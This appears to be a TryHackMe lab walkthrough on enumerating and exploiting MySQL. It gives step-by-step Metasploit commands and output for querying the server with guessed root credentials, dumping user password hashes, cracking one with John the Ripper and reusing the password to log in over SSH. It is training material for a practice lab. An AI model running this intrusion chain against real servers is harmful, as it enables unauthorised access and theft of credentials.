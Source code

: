 # Enumerating MySQL

References:
- [TryHackMe: Network Services 2](https://tryhackme.com/r/room/networkservices2)
- [Blog: Enumerating and Exploiting MySQL](https://andickinson.github.io/blog/enumerating-and-exploiting-mysql/)

---

## 1. Access DB

### Install MySQL:
```bash
sudo apt install default-mysql-client
```

Try passwords:

'' (empty)

password

Great, now close the MySQL connection.

## 2. Exploitation

Open Metasploit:

```bash
msfconsole
```

Search for mysql_sql:
```bash
search mysql_sql
Use the auxiliary module:
use auxiliary/admin/mysql/mysql_sql
```

Set options:
```bash
set PASSWORD password
set RHOSTS 10.10.210.104
set USERNAME root
run
```

Result:
```bash
10.10.210.104:3306 - Sending statement: 'select version()'...
[*] 10.10.210.104:3306 -  | 5.7.29-0ubuntu0.18.04.1 |
```


Show databases:
```bash
set SQL "show databases"
run
```

Result:
```bash
[*] 10.10.210.104:3306 - Sending statement: 'show databases'...
[*] 10.10.210.104:3306 -  | information_schema |
[*] 10.10.210.104:3306 -  | mysql |
[*] 10.10.210.104:3306 -  | performance_schema |
[*] 10.10.210.104:3306 -  | sys |
[*] Auxiliary module execution completed
```

Search for and select the mysql_schemadump:
```bash
search mysql_schemadump
```

Get the last table that gets dumped:
```bash
use auxiliary/scanner/mysql/mysql_schemadump
options
set PASSWORD password
set RHOSTS 10.10.210.104
set USERNAME root
run
```

Table Name:
```bash
TableName: x$waits_global_by_latency
```

Select the mysql_hashdump module:
```bash
search mysql_hashdump
use auxiliary/scanner/mysql/mysql_hashdump
```

Set the relevant options and run the exploit:
```bash
options
set PASSWORD password
set RHOSTS 10.10.210.104
set USERNAME root
run
```

Result:
```bash
[+] 10.10.210.104:3306 - Saving HashString as Loot: root:
[+] 10.10.210.104:3306 - Saving HashString as Loot: mysql.session:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[+] 10.10.210.104:3306 - Saving HashString as Loot: mysql.sys:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[+] 10.10.210.104:3306 - Saving HashString as Loot: debian-sys-maint:*D9C95B328FE46FFAE1A55A2DE5719A8681B2F79E
[+] 10.10.210.104:3306 - Saving HashString as Loot: root:*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19
[+] 10.10.210.104:3306 - Saving HashString as Loot: carl:*EA031893AA21444B170FC2162A56978B8CEECE18
[*] 10.10.210.104:3306 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

## 3. Crack Password
```php
User: carl
```

Copy the hash string in full (e.g., bob:*HASH) to a text file on your local machine called hash.txt:
```bash
touch hash.txt
vi hash.txt
Ctrl+Shift+V
Shift+:
wq
```

Crack password:
```bash
john hash.txt
```

Result:
```bash
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/opt/john/password.lst
Proceeding with incremental:ASCII
doggie           (carl)
1g 0:00:00:02 DONE 3/3 (2024-11-14 09:45) 0.4545g/s 1039Kp/s 1039Kc/s 1039KC/s doggie..doggia
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```


## 4. Access Shell

What are the chances that this user has reused their password for a different service?
```bash
ssh carl@10.10.210.104
Password: doggie
```

```bash
ls
cat MySQL.txt
```